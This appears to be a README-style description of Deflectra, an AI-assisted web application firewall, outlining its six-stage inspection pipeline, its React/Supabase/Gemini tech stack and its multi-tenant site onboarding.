Deflectra is a production-grade, AI-powered Web Application Firewall that combines traditional regex-based pattern matching with modern LLM-powered threat classification. Its six-stage inspection pipeline (API Shield → Rate Limiting → WAF Rules → AI Analysis → Logging → Block/Forward) provides comprehensive protection against common web attacks including SQL injection, cross-site scripting, path traversal, and brute force attempts.

The application demonstrates full-stack development capabilities across:
- **Frontend:** React, TypeScript, Tailwind CSS, shadcn/ui, Mapbox GL, Recharts, Framer Motion
- **Backend:** Supabase (PostgreSQL, Edge Functions, Realtime, Auth, RLS)
- **AI:** Google Gemini 3 Flash via structured tool calling
- **Infrastructure:** Cloudflare Workers for edge routing

Deflectra is designed as a multi-tenant application where **anyone can create an account and connect their own web applications** for WAF protection. The AI-powered onboarding crawls each site in real-time, detects tech stacks and endpoints, and generates tailored security configurations automatically.
